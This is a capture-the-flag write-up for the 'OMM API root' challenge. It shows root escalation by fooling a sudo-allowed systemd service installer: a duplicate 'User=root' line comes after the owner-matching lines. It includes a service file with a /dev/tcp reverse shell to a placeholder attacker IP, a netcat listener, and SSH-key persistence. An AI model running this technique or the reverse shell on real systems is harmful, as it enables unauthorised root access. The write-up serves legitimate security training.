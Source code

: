 # OMM API root
*Disclaimer: We solved this challenge after the CTF had ended*

<p align="center">
    <img src="img/omm_api_root_chall.png" alt="Challenge" width="500"/>
</p>

We currently have shell as the `f_omm_app` user. In the `OMM API user` challenge we got a reverse shell, which we now have upgraded to a ssh-shell by adding our ssh-publickey to `/home/f_omm_app/.ssh/authorized_keys`.
```
f_omm_app@ip-10-128-3-164:~$ id
uid=1002(f_omm_app) gid=1003(f_omm_app) groups=1003(f_omm_app),1001(hpc_users_rd)
```

`f_omm_app` have sudo permissions on the box, but only for certain commmands.
```
f_omm_app@ip-10-128-3-164:~$ sudo -l
Matching Defaults entries for f_omm_app on ip-10-128-3-164:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin\:/opt/pbs/bin, use_pty

User f_omm_app may run the following commands on ip-10-128-3-164:
    (ALL : ALL) NOPASSWD: /opt/pbs/bin/qsub, /opt/pbs/bin/qdel, /prog/util/sbin/appsysctladd, /usr/bin/systemctl restart *
```

The first two scripts, `/opt/pbs/bin/qsub` and `/opt/pbs/bin/qdel` does not do much.
```
f_omm_app@ip-10-128-3-164:~$ cat /opt/pbs/bin/qsub
#!/bin/sh
# This is just mocked handling for this CTF. This is not the file you're looking for"
echo "OK"
f_omm_app@ip-10-128-3-164:~$ cat /opt/pbs/bin/qdel
#!/bin/sh
# This is just mocked handling for this CTF. This is not the file you're looking for"
echo "OK"
```

The command `/usr/bin/systemctl restart *` allows us to restart the systemctl services, however [/prog/util/sbin/appsysctladd](./appsysctladd.sh) is the most script we can run.
`appsysctladd` is a bash script which takes one or more directories as arguments. For each directory-argument given it searches for the directory `$HOSTNAME` and starts each `.service` file as a `systemctl` service. This means that if we create a service file with `User=root` the created service should execute our defined command as `root`!
```
f_omm_app@ip-10-128-3-164:/dev/shm$ ls
eic-hostkey-MGy07Txb  ip-10-128-3-164

f_omm_app@ip-10-128-3-164:/dev/shm$ ls ip-10-128-3-164/
test.service

f_omm_app@ip-10-128-3-164:/dev/shm$ cat ip-10-128-3-164/test.service
[Service]
Type=simple
ExecStart=/bin/bash -c "id > /tmp/output"
User=root

[Install]
WantedBy=multi-user.target
```

```
f_omm_app@ip-10-128-3-164:/dev/shm$ sudo /prog/util/sbin/appsysctladd /dev/shm
appsysctladd: Looking up systemctl services for  under /dev/shm
appsysctladd: /dev/shm/ip-10-128-3-164/test.service was rejected. User and Group must match file user and group
```

Unfortunately, that would be too easy. Looking closer into the `/prog/util/sbin/appsysctladd` script we can see the following check:
```
U=$( stat -c '%U' "${SRV}" )
G=$( stat -c '%G' "${SRV}" )

if egrep -q "^User=${U}$" "${SRV}" && egrep -q "^Group=${G}$" "${SRV}"
then
    SRVNAME=$( basename "${SRV}" )
    echo "$PROG: Setting up systemd service from ${SRV}"
    install -g root -o root -m 644 "${SRV}" "${SYSTEMD}/${SRVNAME}" && \
    systemctl daemon-reload && \
    systemctl start "${SRVNAME}" && \
    systemctl enable "${SRVNAME}"
else
    echo "$PROG: ${SRV} was rejected. User and Group must match file user and group"
fi
```

The script gets the username and group of the owner of the file, and checks that it match the `User` and `Group` the service is set to run as. This check is however not bulletproff, as it only checks if `User=f_omm_app` and `Group=f_omm_app` *exist* in the service file. So what happens if the service file contains the following?
```¨
User=f_omm_app
Group=f_omm_app
User=root
```

Turns out, when a field is set *twice* it is the *latest* occurrence of the field that takes precedence. Thus, we can bypass the if-check in the `appsysctladd` script by including `User=f_omm_app`, but then set `User=root` afterwards to make the service execute as root.
```
f_omm_app@ip-10-128-3-164:/dev/shm$ cat ip-10-128-3-164/test.service
[Service]
Type=simple
ExecStart=/bin/bash -c "id > /tmp/output"
User=f_omm_app
Group=f_omm_app
User=root

[Install]
WantedBy=multi-user.target

f_omm_app@ip-10-128-3-164:/dev/shm$ sudo /prog/util/sbin/appsysctladd /dev/shm
appsysctladd: Looking up systemctl services for  under /dev/shm
appsysctladd: Setting up systemd service from /dev/shm/ip-10-128-3-164/test.service

f_omm_app@ip-10-128-3-164:/dev/shm$ cat /tmp/output
uid=0(root) gid=1003(f_omm_app) groups=1003(f_omm_app)
```

With this knowledge, we can swap out the `ExecStart` POC with a reverse shell to get root, and the flag!
```
f_omm_app@ip-10-128-3-164:/dev/shm$ cat ip-10-128-3-164/test.service
[Service]
Type=simple
ExecStart=/bin/bash -c "sh -i >& /dev/tcp/<attacker_ip>/9001 0>&1"
User=f_omm_app
Group=f_omm_app
User=root

[Install]
WantedBy=multi-user.target
f_omm_app@ip-10-128-3-164:/dev/shm$ sudo /prog/util/sbin/appsysctladd /dev/shm
appsysctladd: Looking up systemctl services for  under /dev/shm
appsysctladd: Setting up systemd service from /dev/shm/ip-10-128-3-164/test.service
```

```
$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.128.1.12] from (UNKNOWN) [10.128.3.164] 54920
sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=1003(f_omm_app) groups=1003(f_omm_app)
# cat /root/root.txt
EPT{PR1V35C_15_700_345Y_F0R_Y0U_GJ_WP!}
```